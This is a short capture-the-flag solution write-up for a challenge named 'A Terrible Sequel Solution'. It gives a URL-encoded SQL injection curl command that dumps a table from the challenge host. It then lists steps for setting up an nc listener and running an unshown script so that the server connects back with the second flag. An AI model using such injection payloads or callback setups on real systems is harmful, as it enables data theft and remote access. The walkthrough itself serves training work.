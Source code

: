# A Terrible Sequel Solution

# First Flag

`curl git.makestuff.company:5000/results/'nothing%27%20;%20select%20*%20from%20prescup;--'`

# Second Flag:

1. Get your VM's IP address: `ip addr`
2. Open a second terminal and run NC in listen mode: `nc -lp 12345`
3. Write the accompanying solution script [script.py](./script.py), replacing the IP_ADDRESS and NC_PORT variables with the address
 you found and whatever port you used for the NC listener, if it was not 12345.
4. `python3 script.py` assuming that you named the written script will generate a URL.
5. Copy the URL.
6. Access the URL with `curl`.
7. `curl git.makestuff.company:5000/reload`
8. Wait 5-10 seconds, and you should receive the flag in the NC listener terminal.
